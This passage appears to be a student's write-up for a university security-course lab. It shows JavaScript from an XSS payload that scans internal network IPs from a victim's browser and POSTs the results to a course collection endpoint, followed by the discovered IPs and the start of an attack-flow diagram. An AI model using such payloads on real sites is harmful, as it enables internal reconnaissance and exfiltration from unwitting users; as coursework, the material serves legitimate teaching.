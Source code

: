 ```javascript
var scanPromises = ipsToScan.map(function (ip) {
  return scanIP(ip);
});

// Wait for all scans to complete
Promise.all(scanPromises)
  .then(function (results) {
    // Filter out null results (failed requests)
    var validIPs = results.filter(function (ip) {
      return ip !== null;
    });

    // Send results to endpoint
    var resultString = validIPs.join(",");
    fetch("https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065", {
      method: "POST",
      body: "scan_results=" + encodeURIComponent(resultString),
    });

    // Also send individual IPs for debugging
    validIPs.forEach(function (ip) {
      fetch("https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065", {
        method: "POST",
        body: "found_ip=" + ip,
      });
    });
  })
  .catch(function (error) {
    // Send error to endpoint
    fetch("https://cs6262.gtisc.gatech.edu/receive/gguruvelli3/2065", {
      method: "POST",
      body: "scan_error=" + encodeURIComponent(error.toString()),
    });
  });
```

## Results

**Discovered IPs:** `172.16.238.58, 172.16.238.97, 172.16.238.128, 172.16.238.138, 172.16.238.243`

The scan successfully identified 5 active web servers on the internal network.

## Why It Works

### The Attack Flow

```
┌─────────────────────────────────────────────────────────────┐
│ 1. Victim visits page with XSS payload                     │
│    - Payload executes in victim's browser                  │
│    - Browser is inside the corporate network               │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 2. JavaScript generates list of IPs to scan                │
│    - 172.16.238.4 through 172.16.238.255                   │
│    - Total: 252 IP addresses                               │
└────────────────────┬────────────────────────────────────────┘
                     │
                     ▼
┌─────────────────────────────────────────────────────────────┐
│ 3. For each IP, attempt HTTP request                       │
```
